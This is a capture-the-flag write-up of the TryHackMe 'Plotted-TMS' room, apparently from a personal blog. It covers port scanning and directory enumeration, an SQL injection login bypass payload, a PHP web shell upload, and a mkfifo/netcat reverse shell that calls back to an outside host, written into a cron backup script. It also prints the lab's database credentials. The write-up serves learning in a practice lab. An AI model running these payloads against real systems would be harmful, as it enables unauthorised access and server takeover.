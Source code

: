 ```yaml
---
title: TryHackMe Plotted-TMS Writeup
date: 2025-09-27 15:00:00 +/-0000
categories: [THM]
tags: [enumeration]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/6187c9220cd0ff0c5c3b29b9aa6252ea.png
---
```


After running nmap scan on the target, I got:

`nmap -A 10.10.194.9`

```bash
Nmap scan report for 10.10.194.9
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

```

Upon visiting port `80/HTTP`, I got an apache server default page:

![thm-plotted-tms-home.png](assets/img/posts/thm-plotted-tms-home.png)
_Default Apache Server Page_

Then I decided to enumerate other pages on the webapp by using `dirsearch`:

`dirsearch -u http://10.10.194.9/`

```bash
[12:14:54] 200 -  452B  - /admin/
[12:15:19] 200 -   25B  - /passwd
```

The `/admin/` page had open directory enabled, and there was a file named `id_rsa`, which immediately made me think about the ssh port I had seen earlier on nmap.

However, it later turned out to be a base64 encoding of the text `Trust me it is not this easy..now get back to enumeration :D` 😂

The `/passwd` route returned a base64 encoded text, which decoded as `not this easy :D` 😆

I then ran dirsearch on port `445`:

`dirsearch -u http://10.10.194.9:445/`

```bash
[12:23:28] 200 -    4KB - /management/
```
Upon visiting the `/management/` route, I was greeted with a login page.

I tried a few SQLi payloads and `' or '1'='1'#` worked. I was then on the dashboard. 

Then I went onto the profile management page, and uploaded a php shell, and I was in. 

Upon visiting `initialize.php`, I saw database credentials:

```php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','/management/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"tms_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"Password@123");
if(!defined('DB_NAME')) define('DB_NAME',"tms_db");
?>
```

I used the credentials to explore the database, and found a users table which has 2 hashed passwords:

![thm-plotted-tms-hashes.png](assets/img/posts/thm-plotted-tms-hashes.png)
_Hashes.com lookup results_

I tried to use these credentials to my benefit, however, they didn't work anywhere. 

After a bit of exploring, I found that there was `user.txt` in user `plot_admin`'s home directory. 

Later, I found a `backup.sh` file in `/var/www/scripts`, and I could edit it. 

```bash
www-data@plotted:/var/www/scripts$ rm -rf backup.sh
rm -rf backup.sh
www-data@plotted:/var/www/scripts$
www-data@plotted:/var/www/scripts$ ls
ls

www-data@plotted:/var/www/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.39.101 4445 >/tmp/f" > backup.sh
<h -i 2>&1|nc 10.23.39.101 4445 >/tmp/f" > backup.sh
www-data@plotted:/var/www/scripts$ cat backup.sh
cat backup.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.39.101 4445 >/tmp/f
www-data@plotted:/var/www/scripts$
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
chmod +x backup.sh
www-data@plotted:/var/www/scripts$ date
date
Sat Sep 27 12:44:03 UTC 2025
www-data@plotted:/var/www/scripts$
```

After listening on the other shell and sending the `date` command to check if a minute had passed, I got the response from the server and got access to the `plot_admin` admin account. I then cat'd the user.txt flag.

To get root.txt, I just used basic privesc techniques, and realised I could run `doas` as root, and I used [GTFOBins](https://gtfobins.github.io/) guide to echo root.txt file. 